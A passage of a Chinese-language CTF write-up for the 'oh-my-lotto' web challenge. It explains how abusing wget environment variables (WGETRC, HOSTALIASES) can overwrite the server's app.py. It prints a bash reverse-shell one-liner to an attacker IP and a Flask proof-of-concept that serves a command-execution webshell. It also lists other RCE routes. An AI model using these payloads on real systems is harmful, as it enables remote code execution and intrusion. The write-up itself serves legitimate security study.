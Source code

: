 将反弹shell的内容改为下面的就可以了

```php
/bin/bash -c "bash -i >& /dev/tcp/ip/10000 0>&1"
```



**总结**：我理解的 先通过将环境变量的内容写入`/app/guess/forecast.txt`,访问`/lotto`，`WGETRC`环境变量设置后，就会`load that file`，就会成功写入环境变量，然后访问`/`,就可以wget到我们的服务器，控制返回内容到index.html，触发SSTI

**其他解法**

1. 利用`WGETRC`配合`http_proxy`和`output_document`，覆盖本地的wget应用(下载文件的工具)，然后利用wget完成RCE

2. wget命令可以通过`use_askpass`参数执行可执行文件。但是`use_askpass`需要对应文件有可执行权限，直接通过设置`output_document`指定文件保存路径来覆盖bin目录下的文件，这样让代理服务器返回一个恶意文件，在保存到本地是也会继承bin目录下的可执行权限，最后通过指定use_askpass为覆盖的文件就可以rce

3. 上传gconv-modules并利用GCONV_PATH(https://www.codeleading.com/article/19365719271/).

###  预期解

[参考官方文档](https://github.com/sixstars/starctf2022/blob/main/web-oh-my-lotto%20%26%20revenge/web-oh-my-lotto%26revenge-ZH.md)

通过翻阅Linux环境变量文档`http://www.scratchbox.org/documentation/general/tutorials/glibcenv.html`在Network Settings中发现有`HOSTALIASES`可以设置shell的hosts加载文件，利用`/forecast`路由可以上传待加载的hosts文件，将`wget --content-disposition -N lotto`发向lotto的请求转发到自己的域名例如如下hosts文件

```
# hosts
lotto mydomain.com
```

同时注意到wget请求添加了`--content-disposition -N`参数，说明请求的保存文件名将由服务方提供方指定的文件名决定，并可以覆盖原有的文件，那我们在自己的`mydomain.com`域名的80端口提供一个文件下载的功能，将返回文件名设置为`app.py`就可以覆盖当前题目的`app.py`文件，参考POC

```python
from flask import Flask, request, make_response
import mimetypes

app = Flask(__name__)

@app.route("/")
def index():

    r = '''
from flask import Flask,request
import os


app = Flask(__name__)
@app.route("/test", methods=['GET'])
def test():
    a = request.args.get('a')
    a = os.popen(a)
    a = a.read()
    return str(a)

if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
'''

    response = make_response(r)
    response.headers['Content-Type'] = 'text/plain'
    response.headers['Content-Disposition'] = 'attachment; filename=app.py'
    return response



```